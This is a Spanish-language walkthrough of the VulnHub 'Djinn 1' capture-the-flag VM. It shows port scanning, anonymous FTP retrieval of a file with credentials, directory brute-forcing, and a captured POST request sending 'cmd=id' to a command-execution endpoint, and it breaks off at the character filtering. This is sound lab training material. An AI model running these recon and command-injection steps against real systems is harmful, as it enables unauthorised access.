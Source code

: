 # DJINN
Desarrollo del CTF DJINN

## 1. Configuración de la VM

- Descarga de la VM: https://www.vulnhub.com/entry/djinn-1,397/
- La VM funciona bien en VmWare

## 2. Escaneo de Puertos

```
# Nmap 7.91 scan initiated Sun Apr 18 11:27:05 2021 as: nmap -n -P0 -p- -sC -sV -O -T5 -oA full 10.10.10.160
Nmap scan report for 10.10.10.160
Host is up (0.00068s latency).
Not shown: 65531 closed ports
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.10.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   filtered ssh
1337/tcp open     waste?
| fingerprint-strings: 
|   NULL: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|     '-', 9)
|   RPCCheck: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|_    '+', 5)
7331/tcp open     http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
|_http-title: Lost in space
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj1.jpg" width=80% />

## 3. Enumeración

### 3.1. Enumeración FTP

- FTP permite acceso anónimo. Descargamos los archivos y vemos lo que tenemos.

```
root@kali:~/DJINN# ftp 10.10.10.160
Connected to 10.10.10.160.
220 (vsFTPd 3.0.3)
Name (10.10.10.160:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
-rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
226 Directory send OK.
ftp> exit
221 Goodbye.
root@kali:~/DJINN# cat creds.txt
nitu:81299
root@kali:~/DJINN# cat game.txt
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
final level and get the prize.
root@kali:~/DJINN# cat message.txt
@nitish81299 I am going on holidays for few days, please take care of all the work. 
And don't mess up anything.
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj2.jpg" width=80% />


- En resumen al parecer tenemos alguna credencial: "nitu:81299", nos hablan del puerto 1337 abierto y de un usuario "nitish81299". Tomamos nota.

### 3.2. Enumeración TCP/1337
 
- Encontramos un pequeño juego matemático. Intenté realizar alguna inyección sin exito.

```
root@kali:~/DJINN# nc 10.10.10.160 1337
  ____                        _____ _                
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(3, '*', 2)
> 6
(4, '-', 8)
> 
```

### 3.3. Enumeración HTTP TCP 7331

```
root@kali:~/tools/dirsearch# python3 dirsearch.py -u http://10.10.10.160:7331/ -t 16 -r -e txt,html,php,asp,aspx,jsp -f -w /usr/share/seclists/Discovery/Web-Content/big.txt

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: txt, html, php, asp, aspx, jsp | HTTP method: GET | Threads: 16 | Wordlist size: 163783

Error Log: /root/tools/dirsearch/logs/errors-21-04-18_12-51-02.log

Target: http://10.10.10.160:7331/

Output File: /root/tools/dirsearch/reports/10.10.10.160/_21-04-18_12-51-02.txt

[12:51:02] Starting: 
[12:53:41] 200 -    2KB - /genie
[12:57:30] 200 -  385B  - /wish
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj3.jpg" width=80% />


- Encontramos un script que nos permite ejecutar comandos. Vamos bien.


## 4. Obteniendo SHELL

- Ya que tenemos un script vamos a intentar obtener una shell reversa, sin embargo, obtenemos mensajes de error. Antes de eso lo pasamos por el BURP.

```
POST /wish HTTP/1.1
Host: 10.10.10.160:7331
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.160:7331/wish
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Connection: close
Upgrade-Insecure-Requests: 1

cmd=id
```

<img src="https://github.com/El-Palomo/DJINN/blob/main/dj4.jpg" width=80% />

- Todo parece fácil, sin embargo, algunos caracteres no estaban permitidos y eso limitada las operaciones: el punto (.), asterisco (*) y slash (/) 







